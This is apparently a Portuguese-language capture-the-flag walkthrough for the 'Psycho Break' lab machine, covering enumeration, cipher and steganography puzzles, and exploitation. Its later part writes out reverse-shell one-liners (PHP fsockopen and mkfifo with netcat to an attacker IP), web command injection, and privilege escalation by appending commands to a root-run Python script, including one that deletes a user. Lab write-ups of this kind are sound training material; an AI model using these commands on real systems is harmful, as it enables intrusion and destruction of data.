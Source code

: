# _**Psycho Break CTF**_
![](break.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Vamos também realizar um scan <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Vamos investigar os diretórios descobertos
Primeiro, começando com <mark>/index.php</mark>
Uma mensagem sobre o início do jogo
Procurando pelo código da página, temos uma pista: <mark>/sadistRoom</mark>  

![](sadist.jpg)

Parece que temos mais uma pista, agora, uma chave  

![](key.jpg)

Clicando no link, temos a chave  
Usando <mark>hash-identifier</mark>, temos uma resposta, possivelmente, md5  

![](md5.jpg)

Quando voltei para a página web, recebemos a seguinte mensagem

![](room.jpg)

Inserimos a chave que nos foi fornecida
E temos a página

![](escape_room.jpg)

Parece que temos que decifrar algo para obter acesso ao mapa que nos foi concedido: _**Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv**_  
Pedindo uma ajuda para o amigo gpt, temos que '_parece estar cifrada com o código de Atbash, uma cifra simples onde cada letra do alfabeto é substituída por sua oposta'_  
Tradução: <mark>Grant me access to the map, please</mark>  
Clicando no link e inserindo a chave que nos foi fornecida, temos:  

![](map_key.jpg)

Apenas faltou um _underline_ entre as palavras  
Temos acesso  

![](access.jpg)

Vamos acessar primeiro <mark>/safe_haven</mark>  

![](safe_house.jpg)

Uma mensagem no código da página  

![](base64.jpg)

Uma mensagem em <mark>base64</mark>  
Vamos tentar decifrar com ```echo```
> ```bash
> echo [string] | base64 -d
> ```
![](decipher.jpg)

Parece que isso não levou a nada  
A mensagem parece dizer para procurar nos diretórios <mark>../js/jquery.min.js</mark> e também <mark>../js/lightbox.js</mark>  
Ambos estão ilegíveis, não podendo separar muito ou se quer buscar algo
Mas, temos uma solução!  
Para isso, vamos utilizar a ferramenta <mark>ffuf</mark>
> ```bash
> ffuf -u http://10.10.245.123/SafeHeaven/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -recursion
> ```
![](ffuf.jpg)

Assim, encontramos um novo diretório  
Vamos acessá-lo  
Agora, para a segunda chave  

![](second_key.jpg)

Rapidamente somos levados a uma página da qual precisamos decifrar de onde é uma determinada imagem  
Sem tempo a perder, salvamos a imagem e utilizamos o _**google**_ para pesquisar  
Encontramos que é <mark>St. Augustine Lighthouse</mark>  

![](lighthouse.jpg)

Conseguimos a chave!

![](real_key.jpg)

Vamos para a próxima sala

![](next_room.jpg)

Da próxima sala, temos  

![](abandoned.jpg)

Clicando no link e investigando o código da página, temos  

![](shell.jpg)

Digitando <mark>?shell=ls</mark>, temos resposta do servidor  
Podemos usar ```netcat``` para obtermos uma shell reversa  
Não funcionou  
Outra alternativa é usar um código PHP, <mark>php -r '$sock=fsockopen("[ip_address]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'</mark>  
Também não funcionou  

![](php_failed.jpg)

Também tentamos outro comando para tentar obter uma shell, <mark>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f</mark>
Nada também  
O único comando até agora que funciona é ```ls```  
Após muitas muitas tentativas e nenhuma solução fui buscar ajuda na Internet e uma das dicas para travessia foi ```..```  

![](secret.jpg)

Colocando a string na url, escapamos e temos acesso para a próxima página  

![](next_page.jpg)

Baixando o arquivo .zip e usando <mark>binwalk</mark>, conseguimos extrair seus arquivos

![](extracted.jpg)

Investigando os arquivos extraídos  

![](content.jpg)

Usamos <mark>binwalk</mark> novamente para extrair os arquivos dentro do arquivo .jpg
E temos resultados promissores  

![](secrets.jpg)

Um destes arquivos é um arquivo de áudio do qual está em código morse  
Vamos desvendar  
Usando um decodificador online, temos uma resposta  

![](echo_morse.jpg)

Utilizando <mark>steghide</mark>, conseguimos obter um arquivo .txt da imagem .jpg que estava dentro da imagem .jpg

![](inception.jpg)  

![](result_inception.jpg)  

Basta realizar login via FTP e verificar os arquivos  
Temos dois  
Vamos extrair eles para o nosso computador com ```mget *```

![](extraction_ftp.jpg)

Apóa a extração, vamos investigar estes arquivos  
Utilizando ```file```, verificamos os dois arquivos extraídos  
Temos o seguinte  

![](file.jpg)  

Parece que precisamos usar o dicionário, passando cada possibilidade de senha para o programa e aguardar o retorno de chave  
Vamos fazer isso com _**python**_  
> ```bash
> import os
> import subprocess
> import sys
> 
> f = open("random.dic", "r")
> 
> keys = f.readlines()
> 
> for key in keys:
> 	key = str(key.replace("\n", ""))
> 	print (key)
> 	subprocess.run(["./program", key])

Após a execução do código, temos a resposta  

![](code_complete.jpg)

Vamos decifrar o que está pedindo  
Parece ser mapeamento T9 clássico: **KIDMAN PASSWORD IS SO STRANGE**  
Vamos realizar login via SSH agora como <mark>kidman</mark>  

![](ssh_login.jpg)

Um simples ```cat``` e obtemos a primeira flag

Vamos escalar privilégios agora
Após testar alguns comandos e verificar alguns arquivos, podemos tentar o seguinte  

![](priv_esc.jpg)

Verificamos o arquivo .the_eye_of_ruvik.py  
Criamos um arquivo temporário em **/tmp/flag2**  
Damos permissão para este arquivo  
Verificamos essa permissão  
Damos ```echo``` no seguinte trecho de código  
> ```bash
> subprocess.call("cat /root/root.txt > /tmp/flag2", shell=True)' >> /var/.the_eye_of_ruvik.py
> ```
Isto passa uma chamada de _subprocesso_ para o arquivo que queremos (root.txt) com shell. Agora, basta aguardar a execução do arquivo .the_eye_of_ruvik.py
Basta um ```cat``` no arquivo que criamos e temos a nossa segunda flag!

Para remover o usuário _**ruvik**_, vamos executar a mesma ideia com o seguinte código:
> ```bash
> echo 'subprocess.call("deluser --remove-all-files ruvik", shell=True)' >> /var/.the_eye_of_ruvik.py
> ```
Basta esperar um pouco e chegar o diretório <mark>/home</mark> para não ver o usuário
